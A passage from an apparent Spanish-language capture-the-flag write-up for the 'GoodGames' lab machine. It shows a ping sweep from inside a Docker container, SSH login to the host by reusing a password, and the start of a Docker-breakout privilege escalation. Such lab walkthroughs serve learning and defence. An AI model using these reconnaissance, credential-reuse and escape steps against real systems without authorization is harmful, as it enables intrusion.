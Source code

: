 ```bash
root@3a453ab39d3d:~# for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.124 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.087 ms
```

## Pivoting al host

Probamos reutilizar contraseñas y funciona para augustus:

```bash
root@3a453ab39d3d:~# ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$
```

Estamos en la IP de la máquina donde está montada la web:

```bash
augustus@GoodGames:~$ hostname -I
10.10.11.130 172.19.0.1 172.17.0.1 dead:beef::250:56ff:feb9:809b
```

Docker está en la lista de procesos y coincide con lo que sospechaba desde el punto de vista del contenedor:

```bash
augustus@GoodGames:~$ ps auxww | grep docker
root       908  0.0  2.1 1457176 86204 ?       Ssl  02:40   0:09 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root      1246  0.0  0.2 1222636 9616 ?        Sl   02:40   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8085 -container-ip 172.19.0.2 -container-port 8085
```

## Escalada de privilegios mediante Docker Breakout

El directorio de inicio es el mismo que el del contenedor. Los tamaños y tiempos de los archivos son exactamente los mismos.

Si creo un archivo en el host:

```bash
augustus@GoodGames:~$ ls -l from_container
-rw-r--r-- 1 root root 0 Feb 22 15:16 from_container
```
